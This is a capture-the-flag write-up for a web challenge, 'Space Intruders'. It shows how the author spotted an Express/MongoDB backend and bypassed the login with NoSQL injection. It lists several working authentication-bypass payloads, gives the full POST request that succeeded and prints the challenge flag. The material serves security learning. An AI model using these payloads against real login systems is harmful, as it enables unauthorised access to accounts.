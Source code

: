 # Space Intruders

## Description
```
Our space ship was hacked a few days ago. We have made sure to improve our security posture by changing all default credentials. We made sure to stop invalid logins by limiting username input to a length of 3 including an equals, legacy software is a pain but it should be secure now.
```

## Writeup

Taking a look at the website. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/42859d1e-d6dc-40ac-ab3c-7a7cd6920fdf)

I can find nothing of interest on the homepage. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/025ff9aa-c6cc-4229-98fd-101c387e1b94)

I tried some things but couldn't identify anything of interest, so let's move on to burp suite. <br/>
Taking a look at the normal response header. <br/>
```sh
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 3970
ETag: W/"f82-Qeg0GsBVKYfwIWZ7+XX4egP6CP8"
Date: Sat, 28 Oct 2023 20:21:43 GMT
Connection: close
```

From here I can deduct a few things. <br/>
First of all I can see `X-Powered-By: Express` which indicates that `express.js` is used in the backend. <br/>
In a lot of cases `express.js` runs together with `node.js` which is not that interesting. <br/>
The interesting thing to us is that this backend architecture often uses `MongoDB` or any kind of `NoSQL` databases. <br/>
Looking up some nosql type injections I chose to take a look at hacktrix. (https://book.hacktricks.xyz/pentesting-web/nosql-injection)<br/>

After trying some of those out I was able to receive error warnings like the following. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/bfb81c3b-0a25-44f3-96d4-b49029414515)

I concluded that I am on the right path and continued looking for working injections until I found 1 section. <br/>

### Basic authentication bypass
**Using not equal ($ne) or greater ($gt)**
```sh
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```

Using the third URL injection with the following request body I got a hit. <br/>
```sh
POST /login HTTP/1.1
Host: spooky-space-intruder-web.chals.io
Content-Length: 45
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://spooky-space-intruder-web.chals.io
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://spooky-space-intruder-web.chals.io/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

username[$exists]=true&password[$exists]=true
```

In the response body I than received the flag. <br/>
```sh
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 38
ETag: W/"26-f/zhwqxyLoLG56Qooha0tkaX91I"
Date: Sat, 28 Oct 2023 20:30:15 GMT
Connection: close

NICC{d1D_y0U_Kn0W_m0NgOdB1$_w3b$ca13?}
```



